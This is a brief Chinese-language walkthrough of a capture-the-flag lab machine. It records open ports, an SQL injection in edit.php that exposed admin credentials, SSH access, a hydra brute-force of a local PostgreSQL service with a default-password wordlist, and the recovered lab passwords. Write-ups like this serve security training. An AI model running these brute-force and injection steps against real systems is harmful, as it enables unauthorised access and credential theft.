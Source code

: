 ## 端口

```
22
80
6667

中间件
Apache 2.4.7 ubuntu
```

## sql注入

在http://192.168.56.104/jabcd0cs/edit.php?id=9&state=2发现sql注入得到admin账号密码

```
webmin
webmin1980
```

然后ssh连接

发现postgres服务。利用/usr/share/wordlists/legion/postgres-betterdefaultpasslist.txt

```
hydra -C postgres-betterdefaultpasslist.txt postgres://127.0.0.1
```

得到postgres登录账号密码

```
postgres|postgres
```

```
psql -h 127.0.0.1 -U postgres
```

得到用户信息

```
vulnosadmin | c4nuh4ckm3tw1c3
```

登录vulnosadmin，发现r00t.blend这是个3D文件，使用blender打开发现字符串

```
ab12fg//drg
```


